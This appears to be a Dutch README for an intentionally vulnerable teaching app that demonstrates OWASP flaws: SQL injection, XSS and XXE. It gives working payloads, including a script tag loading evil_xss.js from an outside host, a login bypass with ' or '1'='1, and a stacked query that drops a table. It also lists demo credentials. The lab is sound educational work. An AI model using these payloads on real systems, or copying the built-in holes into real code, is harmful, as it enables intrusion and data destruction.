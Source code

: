 # OwaspVulnerabilities
<br>
In deze applicatie zijn drie vulnerabilities ingebouwd.<br>
<br>
Injection (sql en code)<br>
Cross site scripting XSS<br>
XML External Entity (XXE) Processing<br>
<br>
Injection (sql en code)<br>
Na het starten van de applicatie is er een H2 database met url: http://localhost:9080/h2-console/<br>
User is sa, password is leeg.<br>
<br>
Tabellen User en Article<br>
User wordt gebruikt om 'in te loggen' - SQL injectie<br>
Article wordt gebruikt om code te injecteren.<br>
<br>
Testen gaat via Swagger (http://localhost:9080/swagger-ui.html#/) en browser. Er is geen frontend.<br>
<br>
Code injectie <br>
<br>
Voeg middels 'addArticle' van de ArticleController een article toe met in het veld description: <br>
<code><script>alert('Hello')</script><code><br>
(id mag leeg blijven)<br>
In de response is het aangemaakte article te zien met het id.<br>
Gebruik dit id in 'getArticleById' om het article op te halen.<br>
Er gebeurt verder niets maar de code is te zien in de response.<br>
Kopieer de 'Request url' onder het Curl stukje (bijv. http://localhost:9080/api/article/getArticleById?id=2).<br>
Gebruik de url in de browser.<br>
Er is nu een alert melding te zien.<br>
Voek een nieuwe article toe met in het veld description:<br>
<script src='http://home.kpn.nl/vuwu57lx/evil_xss.js'></script><br>
Gebruik van de url van dit nieuwe article (bijv. http://localhost:9080/api/article/getArticleById?id=3)<br>
geeft nu een melding in de browser m.b.t. encrypted files<br>

---------------------------------------------------------------------------------------------------------<br>
SQL injectie<br>
<br>
De methode authenticate van de AuthenticationController wordt gebruikt om in te loggen.<br>
Bij verkeerde credentials wordt status 401 teruggegeven en een leeg user object.<br>
Bij de juiste credentials wordt een gevuld user object teruggegeven<br>
user nikki@info.org<br>
pw   S&cr#t<br>
In de logging is de gebruikte sql query te zien:<br>
SELECT * FROM User WHERE user = 'nikki@info.org' and password = 'S&cr#t'<br>
Het is nu de kunst om iets in het password in te vullen zodat een geldige query ontstaat die resultaat oplevert.<br>
Een voorbeeld is: ' or '1' = '1<br>
De query wordt dan:<br>
SELECT * FROM User WHERE user = 'nikki@info.org' and password = '' or '1' = '1'<br>
Dit: ' or '1' = '1'   ; drop table article; --<br>
geeft query <br>
SELECT * FROM User WHERE user = 'nikki@info.org' and password = '' or '1' = '1'   ; drop table article; --'<br>
en heeft tot gevolg dat tabel article is verwijderd.<br>
<br>
---------------------------------------------------------------------------------------------------------<br>
XML External Entity (XXE) Processing<br>

In een XML bestand is het mogelijk om een DOCTYPE element op te nemen.<br>
Hierin kunnen uitvoerbare instructies staan<br>
XML parsers voeren deze instructies uit, afhankelijk van bepaalde settings.<br>
<br>
De RegisterXxeAttackController logt een dergelijke 'aanval'.<br>
Upload in Swagger via de XmlUploadController bestand ...src/main/resources/aanvraag.xml<br>
Het gevulde object wordt getoond in de response.<br>
Doe hetzelfde met ...src/main/resources/xxeaanvraag.xml<br>
In de logging is nu te zien:<br>
RegisterXxeAttackController      : Http request in !DOCTYPE element in xml is executed!<br>
<br>
<br>
N.B.<br>
In de pom staan dependencies voor jaxb omdat deze geen deel meer uitmaken van Java versies > 8<br>
Het kan zijn dat hier, afhankelijk van de gebruikte Java versie, problemen mee ontstaan.<br>




